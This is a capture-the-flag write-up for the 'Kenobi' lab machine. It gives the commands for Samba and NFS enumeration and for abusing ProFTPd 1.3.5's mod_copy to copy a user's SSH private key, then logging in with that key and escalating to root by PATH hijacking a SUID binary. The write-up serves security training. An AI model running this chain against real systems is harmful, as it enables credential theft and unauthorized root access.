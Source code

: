 # Kenobi

## Enumerating Samba
---
```bash
$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.194.68 
# enumerates samba shares

$ smbclient //<ip>/anonymous
# connects to the machines network share

$ smbget -R smb://<ip>/anonymous
# R for recursive, get all files

$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.194.68
# rpcbind port is access to a file network system in this case, scans open rpcbind port


$ searchsploit ProFTPd 1.3.5
# cool tool for searching exploits
```
## Exploiting FTPPro
---
In *log.txt* we find where *kenoby* saved his ssh private key */home/kenobi/.ssh/id_rsa*

The *mod_copy* module implements *SITE CPFR* and *SITE CPTO* commands, which can be used to copy files from one place to another on the server.
Any *unauthentificated* user can exploit this to move files around.

We connect to *FTP* using *netcat* and then execute the above commands to move the *ssh private key*
```bash
$ nc $IP 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```
We know */var* was a mount we could see based on the *nmap scan* or alternatively the *enum4linux* scan

We have to mount the */var/tmp* directory to our machine
```bash
$ mkdir /myfolder
$ sudo mount $IP:/var /myfolder
$ ls -la /myfolder
```
We can find our *RSA private key* in the */tmp* folder, then we can connect with it
```bash
$ chmod 700 id_rsa
$ ssh -i id_rsa kenobi@$IP
```

## Privesc
---
```bash
$ find / -perm -u=s -type f 2>/dev/null
# find SUID files
```
We found */usr/bin/menu*
```bash 
$ strings /usr/bin/menu

curl -I localhost
uname -r
ifconfig
```
It seems like it is running commands without a full path to them.
We can exploit this.

```bash
$ echo "/bin/sh" > curl
$ chmod 777 curl
$ export PATH=/home/kenobi:$PATH
$ /usr/bin/menu
```

